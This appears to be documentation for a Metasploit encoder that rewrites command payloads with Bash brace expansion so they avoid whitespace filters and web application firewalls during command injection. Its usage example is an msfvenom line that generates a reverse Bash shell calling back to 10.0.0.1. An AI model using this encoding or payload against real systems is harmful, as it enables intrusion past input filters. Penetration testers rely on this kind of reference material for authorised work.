 # Bash Brace Expansion Command Encoder

## Module Overview

This encoder leverages Bash's brace expansion feature to avoid using whitespace characters in command payloads. It is useful in situations where whitespace is filtered or restricted, such as in certain command injection vulnerabilities or web application firewalls. By replacing spaces with commas inside curly braces, the command can often bypass filters that look for classic space-separated commands.

The encoder wraps the original command in curly braces (`{}`), replacing every whitespace (space, tab, etc.) with a comma. When interpreted by Bash or compatible shells, this causes the shell to expand the braces and execute the command as if the spaces were present.

**Note:** Minimal escaping is performed, so results may be incorrect for commands that include brace-related meta-characters.

## Options

This encoder does not have user-configurable options.

## Usage Example

To use this encoder with Metasploit's msfvenom for a simple payload:

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.1 LPORT=4444 -e cmd/brace
```

Or, within Metasploit:

```
set ENCODER cmd/brace
```

## Scenarios

- Circumventing filters that block whitespace but allow other shell meta-characters
- Exploiting web applications or network devices with command injection vulnerabilities that restrict the use of space characters
- Useful in environments where Bash (or a compatible shell) interprets the payload

## Caveats

- The encoder may produce incorrect code if the input command contains characters like `{`, `,`, or `}` that are not properly escaped.
- Only effective on targets with Bash or a shell supporting brace expansion.
- Rank is set to Low due to the potential for incorrect expansion.

## References

- [Bash Brace Expansion - GNU Bash Manual](https://www.gnu.org/software/bash/manual/bash.html#Brace-Expansion)
